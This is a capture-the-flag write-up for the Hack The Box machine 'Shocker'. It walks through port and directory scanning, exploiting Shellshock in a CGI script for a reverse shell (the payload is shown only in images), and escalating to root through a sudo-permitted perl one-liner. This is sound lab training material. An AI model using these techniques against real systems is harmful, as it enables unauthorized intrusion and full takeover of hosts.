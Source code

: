 # Shocker

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.146
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 12:22 EDT
Nmap scan report for 10.129.85.146
Host is up (0.011s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-
```

Port 80 is open.

### Shellshock

When the webpage is visited, all we see is this:

<figure><img src="../../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>

I did a `feroxbuster` script on the website.&#x20;

```
$ feroxbuster -u http://10.129.85.146 -f -n      

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.85.146
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🪓  Add Slash             │ true
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        9l       13w      137c http://10.129.85.146/
403      GET       11l       32w      296c http://10.129.85.146/cgi-bin/
403      GET       11l       32w      294c http://10.129.85.146/icons/
403      GET       11l       32w      302c http://10.129.85.146/server-status/
```

I continued fuzzing and found a `user.sh` file. When downloaded, this is the response:

```http
HTTP/1.1 200 OK
Date: Wed, 03 May 2023 16:27:22 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Content-Type: text/x-sh
Content-Length: 119

Content-Type: text/plain

Just an uptime test script

 12:27:22 up 40 min,  0 users,  load average: 0.58, 0.31, 0.11
```

The Content-Type was unique and I've never seen that before. A quick Google search on exploits regarding it led to Shellshock.&#x20;

{% embed url="https://en.wikipedia.org/wiki/Shellshock_(software_bug)" %}

This software bugs allows us to have RCE on the website because of how environments variables are handled poorly in some websites. We can test it out by sending requests to the `user.sh` file and seeing if any bash commands get executed.&#x20;

<figure><img src="../../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

So it does work. We can replace the `ping` command with a reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (155) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Perl

When checking `sudo` permissions, we see this:

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Based on GTFOBins, we just need to execute this to get a `root` shell.

{% code overflow="wrap" %}
```bash
sudo perl -e 'exec "/bin/bash";'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (188) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!

